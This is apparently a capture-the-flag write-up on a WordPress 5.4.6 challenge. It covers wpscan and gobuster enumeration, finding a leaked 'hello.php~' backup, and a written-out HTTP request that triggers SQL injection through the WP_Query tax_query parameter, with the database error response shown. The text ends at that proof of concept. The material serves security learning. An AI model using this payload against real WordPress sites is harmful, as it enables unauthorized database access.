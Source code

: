 We first notice that the website redirects us to a different port (5002), we must use Burp's match and replace to be able to navigate the site as normal.

We notice that the site is using Wordpress and the blog showcases different exploits and that there is an archived post.

We run wpscan and we get the Wordpress version 
```
[+] WordPress version 5.4.6 identified (Insecure, released on 2021-05-12).
```

We can view the vulnerabilites for this version here: https://wpscan.com/wordpress/546

The version is vulnerable to SQL Injection via WP_Query, but we first must find a plugin that uses WP_Query. We use wpscan but it can't find any plugins besides akismet which is not vulnerable.

We notice the directory listing on 35.242.212.223:31252/wp-content/plugins, then we use gobuster and find that there is a file named `index.php~`, we then try to add ~ to all php files and we notice that `hello.php~` has an action that is vulnerable to SQL Injection (since the bug is based on taxonomy queries):
```php
add_action('wp_ajax_nopriv_Taxonomy','dolly_query');
```

We can get an error using this HTTP request:
```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 35.242.212.223:31252
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Cookie:
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
Cookie: wordpress_test_cookie=WP%20Cookie%20check; PHPSESSID=2awijoiab142142
Content-Type: application/x-www-form-urlencoded
Content-Length: 128

action=Taxonomy&nonce=a85a0c3bfa&args[tax_query][Confidential][field]=term_taxonomy_id&args[tax_query][Confidential][terms][0]='
```
Response:
```
HTTP/1.1 200 OK
Date: Sat, 12 Feb 2022 11:44:11 GMT
Server: Apache
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin
Vary: Accept-Encoding
Content-Length: 933
Connection: close
Content-Type: text/html; charset=UTF-8

<div id="error"><p class="wpdberror"><strong>WordPress database error:</strong> [You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near &#039;\&#039;)
) AND wp_posts.post_type IN (&#039;post&#039;, &#039;page&#039;, &#039;attachment&#039;) AND (wp_posts.pos&#039; at line 2]<br /><code>SELECT SQL_CALC_FOUND_ROWS  wp_posts.ID FROM wp_posts  LEFT JOIN wp_term_relationships ON (wp_posts.ID = wp_term_relationships.object_id) WHERE 1=1  AND ( 
  wp_term_relationships.term_taxonomy_id IN (\&#039;)
```